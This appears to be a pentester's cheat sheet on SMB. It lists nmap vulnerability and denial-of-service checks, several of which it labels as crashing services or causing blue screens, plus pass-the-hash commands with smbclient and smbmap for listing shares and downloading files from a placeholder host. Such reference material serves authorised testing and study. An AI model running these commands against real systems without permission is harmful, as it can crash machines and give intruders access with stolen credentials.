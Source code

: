 ```yaml
---
layout: default
title: smb
tags:
    - 445
    - block
    - message
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# smb
### nmap scripts
safe vulnerability scan

`nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10`

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)

`nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10`

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)

`nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10`

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)

`nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10`

### Pass-the-hash
List directories

`smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10`

`smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10` _LM hash is legacy and can usually be anything_

- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

`smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>`